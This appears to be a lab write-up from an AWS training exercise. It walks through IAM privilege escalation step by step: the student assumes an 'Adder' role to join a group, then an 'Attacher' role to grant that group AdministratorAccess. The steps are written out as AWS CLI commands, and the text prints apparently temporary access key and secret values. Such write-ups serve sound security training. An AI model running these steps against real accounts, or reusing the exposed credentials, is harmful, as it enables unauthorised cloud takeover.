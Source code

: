 ### Dangerous Policy Combination I

A pre requisite is to configure the profile generated by PT Academy

First, list attached policies for user `student` `aws iam list-attached-user-policies --user-name student --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222631607-91c607e2-d4f8-44d0-b2a0-69bc1ae83bf7.png)

If a user is tried to be created, a denied message will be received ` aws iam create-user --user-name jllerena --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222631842-3b8ccab1-7e4b-4419-b1d9-d56a74e7a51b.png)

What can be done is to get information about the user’s inline policies and enumerate the attached policies.
```
aws iam list-user-policies --user-name student --profile PTAcademyJllerena
aws iam get-user-policy --user-name student --policy-name terraform-20230303041857712300000002 --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/222632349-d106b9f1-db58-4a55-8206-2d3f93e537c8.png)

Check policies attached to Adder role and check the role-policy document for the policy `AddUser`.

```
aws iam list-role-policies --role-name Adder --profile PTAcademyJllerena
aws iam get-role-policy --role-name Adder --policy-name AddUser --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/222633923-83a1ecab-e304-4a5c-8b57-d620720a7aba.png)

Assume Adder role with student user. `aws sts assume-role --role-arn arn:aws:iam::566111886431:role/Adder --role-session-name adder_jllerena --profile PTAcademyJllerena`
![image](https://user-images.githubusercontent.com/46797181/222636097-2ba838b6-375c-4e0b-8001-b6978538e0c8.png)

With this assume role lets store the credentials which can be in the env variables or in my case in the `~/.aws/credentials` path 

Lets add `student` user to `Printers` group `aws iam add-user-to-group --group-name Printers --user-name student --profile PTAJllerenaAssumedRole`

![image](https://user-images.githubusercontent.com/46797181/222640066-b390c175-2242-4f7a-8b60-3a47b89681d6.png)

Something important to notice is that this credentials storing in the `credentials` file gave an error, so the workaround was to store the values in env variables 
![image](https://user-images.githubusercontent.com/46797181/222640388-2eadecc4-e05b-4d8a-a339-21fcd857a5cc.png)

```
export AWS_ACCESS_KEY_ID=ASIA4FSZIQWHZGGDJ36G
export AWS_SECRET_ACCESS_KEY=NHaUFlUqtXoaJrCs9/HurXAN0MEuNEfKsm3Lzlov
export AWS_SESSION_TOKEN=IQoJ<rest of token>
aws iam add-user-to-group --group-name Printers --user-name student
```
Once added the user to the group the env variables can be unset 

```
unset AWS_ACCESS_KEY_ID
unset AWS_SECRET_ACCESS_KEY
unset AWS_SESSION_TOKEN
```
Listing the groups for user `student` will show that is added to `Printers` group `aws iam list-groups-for-user --user-name student --profile PTAcademyJllerena` 
![image](https://user-images.githubusercontent.com/46797181/222640832-5e52f352-4eb0-4a18-b8e4-d65acf906f88.png)

Repeat the above steps for `Attacher` role 

```
aws iam list-role-policies --role-name Attacher --profile PTAcademyJllerena
aws iam get-role-policy --role-name Attacher --policy-name AttachPolicy --profile PTAcademyJllerena
``` 
![image](https://user-images.githubusercontent.com/46797181/222641612-fcc9b90b-b42b-4d32-a4b8-650613e19933.png)

Above image shows that any policy can be added to the printers group. Lets find `Administrator` policy `aws iam list-policies --profile PTAcademyJllerena | grep 'AdministratorAccess' `

![image](https://user-images.githubusercontent.com/46797181/222642002-6ec8143a-8ff4-4203-b02d-95df7b46cb8d.png)

Next, assume `attacher` role `aws sts assume-role --role-arn arn:aws:iam::836632104335:role/Attacher --role-session-name attacher_jllerena --profile PTAcademyJllerena`  

![image](https://user-images.githubusercontent.com/46797181/222642732-2b513497-7d7c-487d-bc70-b5fe0e127c30.png)

Set the env variables for the assumed role credentials 

```
export AWS_ACCESS_KEY_ID=ASIA4FSZIQWHZGGDJ36G
export AWS_SECRET_ACCESS_KEY=NHaUFlUqtXoaJrCs9/HurXAN0MEuNEfKsm3Lzlov
export AWS_SESSION_TOKEN=IQoJ<rest of token>

```
Next, attach the `AdministratorAccess` policy to the `Printers` group and verify with below commands

Additionally `unset` the env variables  

```
aws iam attach-group-policy --group-name Printers --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
aws iam list-attached-group-policies --group-name Printers --profile PTAcademyJllerena

```
![image](https://user-images.githubusercontent.com/46797181/222643461-719f7cf8-93db-4f68-8c46-0cfdb5bc7372.png)

Create a user with `aws iam create-user --user-name jllerena --profile PTAcademyJllerena`

![image](https://user-images.githubusercontent.com/46797181/222643872-ff89d6d0-3cf0-4b73-b3ce-c9da5f8604cf.png)
